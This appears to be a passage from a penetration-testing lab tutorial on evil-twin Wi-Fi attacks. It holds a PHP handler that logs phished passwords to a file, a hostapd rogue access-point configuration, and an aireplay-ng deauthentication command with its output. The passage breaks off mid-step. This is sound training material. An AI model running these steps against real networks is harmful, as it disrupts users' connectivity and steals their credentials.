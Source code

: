     $data = $password . "\r\n";
    $ret = file_put_contents('passes.lst', $data, FILE_APPEND | LOCK_EX);
    if($ret === false) {
        die('An error has occurred');
    }
    else {
        echo "Thank you for signing in. You will be redirected shortly!";
    }
}
else {
   die('No post data to process');
}
?&gt;

</code></pre>
<p>The <code>received.php</code> file simply takes the user input and writes it to <code>passes.lst</code>, our dictionary. We will be using this dictionary later in order to validate the captured pre-shared keys against the handshake with CowPatty. When testing this form, if an error message is displayed by received.php, it is commonly a permissions issue, which can be resolved with the following command.</p>
<pre><code class="language-shell-session">[!bash!]$ sudo chown -R www-data:www-data /var/www/html/passes.lst
</code></pre>
<hr/>
<h3>4. Spin up the fake access point</h3>
<p>To set up our rogue access point, we use the following configuration file and save it as <code>hostapd.conf</code>:</p>
<pre><code class="language-configuration">interface=wlan1
hw_mode=g
ssid=HTB-Corp
channel=1
driver=nl80211
</code></pre>
<p>Once the configuration file is ready, we launch the rogue access point using <code>hostapd</code>:</p>
<pre><code class="language-shell-session">[!bash!]$ hostapd hostapd.conf 

rfkill: Cannot open RFKILL control device
wlan0: interface state UNINITIALIZED-&gt;ENABLED
wlan0: AP-ENABLED 
</code></pre>
<p>Initially, we can wait for clients to connect to our rogue access point (AP) naturally. However, if no connections occur after a reasonable amount of time, we can forcefully encourage clients to connect by performing a deauthentication attack against the legitimate AP. This attack disconnects clients from the legitimate network, making them more likely to connect to our rogue AP.</p>
<p>To execute a deauthentication attack, we can use aireplay-ng:</p>
<pre><code class="language-shell-session">[!bash!]$ aireplay-ng --deauth 5 -a D4:C1:8B:79:AD:45 wlan0mon

11:51:19  Waiting for beacon frame (BSSID: D4:C1:8B:79:AD:45) on channel 1
NB: this attack is more effective when targeting
a connected wireless client (-c &lt;client's mac&gt;).
11:51:19  Sending DeAuth (code 7) to broadcast -- BSSID: [D4:C1:8B:79:AD:45]
11:51:20  Sending DeAuth (code 7) to broadcast -- BSSID: [D4:C1:8B:79:AD:45]
11:51:20  Sending DeAuth (code 7) to broadcast -- BSSID: [D4:C1:8B:79:AD:45]
11:51:21  Sending DeAuth (code 7) to broadcast -- BSSID: [D4:C1:8B:79:AD:45]
11:51:21  Sending DeAuth (code 7) to broadcast -- BSSID: [D4:C1:8B:79:AD:45]
</code></pre>
<p>Once a client connects to our rogue AP, the <code>hostapd</code> output would be similar to the following:</p>
<pre><code class="language-shell-session">[!bash!]$ hostapd apd.conf 
